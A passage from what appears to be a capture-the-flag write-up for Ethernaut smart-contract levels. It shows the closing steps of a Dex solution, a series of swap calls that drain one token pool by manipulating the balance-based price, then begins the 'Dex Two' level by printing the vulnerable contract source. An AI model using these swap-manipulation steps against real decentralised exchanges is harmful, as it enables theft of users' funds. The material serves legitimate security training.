 > await swapTokens(token2 token1); 
> // [token1: player=24, contract=86] [token2: player=0, contract=110]
> 
> await swapTokens(token1, token2); 
> // [token1: player=0, contract=110] [token2: player=30, contract=80]
> 
> await swapTokens(token2, token1); 
> // [token1: player=41, contract=69] [token2: player=0, contract=110]
> 
> await swapTokens(token1, token2); 
> // [token1: player=0, contract=110] [token2: player=65, contract=45]
> 
> await swapTokens(token2, token1, 45); //since 45 tokens of token2 are remaining.
> // [token1: player=110, contract=0] [token2: player=20, contract=90]
> ```

## 23 Dex Two
In this level we need to steal all the tokens (token1, token2).

#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract DexTwo is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
```